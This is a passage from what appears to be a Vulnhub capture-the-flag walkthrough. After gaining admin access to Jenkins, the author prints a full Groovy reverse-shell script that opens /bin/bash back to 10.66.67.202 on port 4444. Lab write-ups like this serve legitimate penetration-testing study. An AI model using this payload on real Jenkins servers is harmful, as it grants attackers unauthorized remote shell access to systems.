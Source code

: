![Untitled](/Vulnhub-Files/img/JuniorDev/Untitled%203.png)

I got logged in as admin so lets exploit now →

Now I have to get a reverse shell so I followed this site →

[https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)

Groovy Script Reverse Shell →

```bash
String host=”10.66.67.202”;
int port=4444;
String cmd=”/bin/bash”;
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
{: .nolineno}
{: .nolineno}

